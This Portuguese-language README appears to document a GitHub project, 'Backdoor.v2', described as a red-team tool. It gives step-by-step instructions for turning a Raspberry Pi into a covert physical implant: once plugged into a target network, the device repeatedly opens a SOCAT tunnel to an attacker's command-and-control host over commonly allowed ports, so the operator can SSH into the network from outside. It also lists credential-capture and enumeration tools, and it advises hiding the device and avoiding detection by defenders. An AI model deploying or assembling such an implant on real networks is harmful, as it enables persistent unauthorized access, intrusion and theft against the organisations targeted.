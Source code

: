 ## Backdoor.v2 
Então com grandes demandas vem grandes desafios e um deles é que estou no meio de um teste interno e quero utilizar um backdoor físico para diminuir os riscos de ser pego dentro da empresa, uma vez que a equipe em si não vai estar dentro da empresa e sim remota conectada em um backdoor físico. Técnicas como RogueAP poderiam ser adotadas também onde um dispositivo tem duas interfaces, uma conectada na rede alvo e outra geralmente wireless onde os atacantes se conectam BUT não é a ideia aqui(ainda).

Então a ideia é a seguinte, uma vez que o raspberry for plugado na rede via RJ45 e alimentado com energia, ele irá dar boot e então ele irá tentar obter IP via DHCP, caso ele consiga um IP válido, o equipamento irá tentar fechar um túnel utilizando SOCAT com o servidor de C&C, uma vez que o túnel for estabelecido, é só conectar via SSH no backdoor por dentro do túnel. Ao contrário da versão 1 do backdoor físico(https://diesec.home.blog/2017/12/17/raspberry-backdoor-fisico/)  onde eu utilizava a onion para conectar e na verdade era uma conexão ssh reversa dentro da onion, caso o equipamento fosse capturado as chaves do C&C seriam expostas à equipe de forense e eles poderiam utilizar as mesmas para conectar etc. Nessa nova versão a segurança do C&C é melhorada nesse aspecto uma vez que a conexão SSH parte do servidor para o backdoor e não o contrário, a unica conexão reversa que o backdoor faz ao C&C é a conexão do túnel do SOCAT. 

Bom, o grande desafio dessa treta vai ser conseguir sair da rede do alvo e conectar no C&C, acho que depois disso é só não fazer nenhuma merda que dispare a alerte o blueteam dos caras que geralmente bloqueiam o ponto de rede e vão fisicamente investigar, ai na pior das hipoteses eles vão encontrar um raspberry( se encontrar, porque pretendo implantar isso de um jeito macabro). 


So lets roll.

### Environment
Para esse projeto irei estar utilizando um raspberry pi 3+ com o sistema operacional Raspbian Buster Lite - Minimal image based on Debian Buster e um Sdcard de 16Gb

```
Version: September 2019
Release date: 2019-09-26
Kernel version: 4.19
Size: 435 MB
```
Download pode ser feito aqui: https://www.raspberrypi.org/downloads/raspbian/

### Configurando o Sistema
Posteriormente a instalação do sistema operacional que não irei abordar aqui, é recomendavel que algumas alterações no sistema sejam realizadas:

Adicionando um novo usuário: 

```
~# useradd -s /bin/bash -k /etc/skel/ -m -c RedTeamUser redteam
```

Alterando a senha do usuário redteam:

```
~# passwd redteam 
New password: 
Retype new password: 
passwd: password updated successfully
```

Alterando o hostname do sistema: 
```
~# echo 'server_2030' >  /etc/hostname
```

Adicionando o novo usuário ao grupo whell para execução do comando sudo:

```
~# usermod -aG sudo redteam
```

Bloqueando o usuário nativo do sistema: 
```
~# passwd -l pi
passwd: password expiry information changed.
```


### Realizando o Deploy no Raspberry:
Dê um clone  no repositório, no raspberry você irá precisar apenas da parte cliente. 

```
git clone https://github.com/d34dfr4m3/backdoorv2.git

```

Realize a instalação das dependências e etc executando o comando abaixo 

```
cd client
chmod +x install.sh
./install.sh
```

Antes de sair por ai plugando seu raspberry é necessário que você configure o IP do C&C no arquivo client/rev.sh, exatamente na linha 6:
```
C2='ipAddress_From_Command&Control'
```

Altere para o endereço IPv4 do seu servidor ou endereço FQDN do host, whatever. Exemplo:
```
C2='c2c.meucdois.com'
``` 

### Configurando o C&C
Dê um clone no repositório, no servidor você irá precisar apenas da parte do handler. 

```
git clone
```

Realize a instação das dependências:

```
cd handler
chmod +x install.sh
./install.sh
```

Então inicie o handler: 
``` 
./handler.sh start
```

Agora em teoria é só conectar seu raspberry em alguma rede ai e aguardar a conexão no C2, o raspberry irá tentar se conectar nas portas TCP 53,123,80,443 e UDP 53,123 à cada 2 minutos. 

No C&C, para verificar as portas abertas para conexão você pode utilizar o seguinte comando:
```
./handler.sh status
```

Repare que a conexão só vai ser estabelecida quando uma interface TUN subir em ambos os hosts. 

#### Tools 
Ferramentas que serão instaladas para agilizar a etapa dos ataques:
- Responder https://github.com/lgandx/Responder
- Impacket https://github.com/SecureAuthCorp/impacket
- enum4linux https://labs.portcullis.co.uk/tools/enum4linux/
- nmap


#### Extras:
E caralho, nunca na sua vida saia passando scan num ataque interno porquẽ se o malandro do blueteam tiver configurado triggers de detecção, você já era, tente explorar os serviços de forma natural na maneira que eles funcionam, não tente procurar por falhas conhecidas na rede porquẽ pode dar muito ruim. 

#### Links: 
- https://www.raspberrypi.org/downloads/raspbian/

